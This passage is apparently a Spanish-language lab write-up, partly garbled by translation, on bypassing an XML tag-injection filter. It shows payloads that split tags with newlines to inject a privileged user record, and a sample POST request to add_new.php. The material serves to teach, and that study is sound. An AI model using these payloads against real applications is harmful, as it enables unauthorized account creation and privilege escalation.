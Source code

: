 Bypassing Filters:

* Eludiendo las limitaciones de longitud no es suficiente. La aplicación implementa algunos filtros contra la inyección XML TAG que bloquea la carga útil anterior.

En este caso, si el filtro detecta algunos elementos peligrosos, muestra un mensaje como el siguiente:

```xml
So you wanna be a l33t member so easily?! ಠ_ಠ

# Injecting some metacharacters, we can see that &, \ , , , "" , '' are filtered but < and > are not!
```

Hay otro filtro que bloquea la y las etiquetas.

La comprobación es insensible a caso, y parece que los espacios y las pestañas se ignoran entre el nombre de la etiqueta y el carácter de la etiqueta cercana, pero si inyectamos una nueva línea, no se filtra.

Así que la explotación podría ser la siguiente:

```xml
name:     </name></user><user><rule{NEW_LINE}>1<!--
username: --></rule{NEW_LINE}><name></name><username>x
password: l33t
```

Ahora el nombre de usuario tiene una longitud de 35; inyectando esta carga útil, tendríamos un nombre de usuario vacío y por lo tanto un login inválido.

* Tenemos que eliminar algo de la carga útil, y la etiqueta parece ser ignorada del lado del servidor.

La explotación laboral es:

```xml
name:     </name></user><user><rule{NEW_LINE}>1<!--
username: --></rule{NEW_LINE}><username>l33t
password: l33t
```

Adentro de la eruche la solicitud debe verse como sigue:

```xml
POST /add_new.php HTTP/1.1
...
name=</name></user><user><rule
>1<!--&user=--></rule
><username>l33t&password=l33t

The leet login will be:

username: l33t
password: l33t 
```

## Lab 2
